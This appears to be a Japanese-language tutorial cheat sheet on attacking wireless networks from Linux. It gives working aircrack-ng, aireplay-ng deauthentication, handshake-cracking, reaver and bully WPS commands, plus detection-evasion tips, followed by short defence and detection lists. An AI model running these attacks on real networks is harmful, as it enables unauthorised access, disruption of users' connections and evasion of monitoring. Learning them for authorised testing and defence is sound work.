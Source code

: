 # Linux WiFi Attack Techniques

**対応OS**: Linux

## 概要
Linux環境での無線ネットワークに対する攻撃手法について解説します。

## 基本的な手法

### モニターモードの設定
```bash
# インターフェースの確認
iwconfig

# モニターモードの有効化
airmon-ng check kill
airmon-ng start wlan0

# チャンネルスキャン
airodump-ng wlan0mon
```

### WPA/WPA2ハンドシェイクの取得
```bash
# 特定のネットワークの監視
airodump-ng -c 1 --bssid [BSSID] -w capture wlan0mon

# Deauth攻撃の実行
aireplay-ng -0 1 -a [BSSID] -c [CLIENT_MAC] wlan0mon

# ハンドシェイクの解析
aircrack-ng -w wordlist.txt capture-01.cap
```

### WPS攻撃
```bash
# Reaver使用
reaver -i wlan0mon -b [BSSID] -vv

# Bully使用
bully -b [BSSID] -c [CHANNEL] wlan0mon
```

## 検知回避テクニック
- パケット送信レートの制御
- MACアドレスのランダム化
- 低出力での送信
- タイミング制御

## 防御策
- WPSの無効化
- 強力な暗号化
- クライアント隔離
- IDS/IPSの導入

## 検知方法
- 不正なプローブ要求
- Deauth攻撃の検出
- 異常なWPS要求
- トラフィック分析

## 注意事項
- このテクニックは教育目的でのみ使用してください
- 実環境での使用は法的責任を伴う可能性があります
- すべてのテストは許可された環境でのみ行ってください 